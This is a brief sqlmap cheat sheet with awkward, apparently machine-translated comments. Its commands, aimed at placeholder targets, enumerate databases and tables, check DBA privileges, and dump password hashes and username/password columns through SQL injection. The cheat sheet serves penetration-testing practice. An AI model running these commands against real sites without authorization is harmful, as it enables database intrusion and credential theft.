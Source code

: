 
## Basic usage


`./sqlmap.py -u "inject address" --dbs` // enumerate database  
`./sqlmap.py -u "inject address" --current-db` // current database  
`./sqlmap.py -u "inject address" --users` // column database user  
`./sqlmap.py -u "inject address" --current-user` // current user  
`./sqlmap.py -u "inject address" --tables -D "database"` // enumerate the table name of the database  
`./sqlmap.py -u "inject address" --columns -T "table name" -D "database"` // get the column name of the table  
`./sqlmap.py -u "inject address" --dump -C "field, field" -T "table name" -D "database"` // get the data in the table, including the column, is the pants  

##  Submit using the POST method
`sqlmap -u "http://192.168.1.1/sqlmap/oracle/post_int.php" --method POST --data "id=1"`  
`sqlmap -u "https://xxxxx//search.aspx" --forms --batch --crawl=10  --dbms=MSSQL --dbs --current-db  --technique=BEUST --risk=3 --level=3`  

## Read the database version, current user, current database 
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1`  

## Determine the current database user permissions
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --privileges -U username-v 1 `  
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --is-dba -U username-v 1`  

## Read the passwords of all database users or specified database users 
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 `  
`Sqlmap.py-u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2`  

## Get all the databases
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2`  

## Get all the tables in the specified database
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2`  

## Get the field of the specified table in the specified database name 
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2`  

## Get the data of the specified field in the specified table in the specified database name 
`Sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2`  
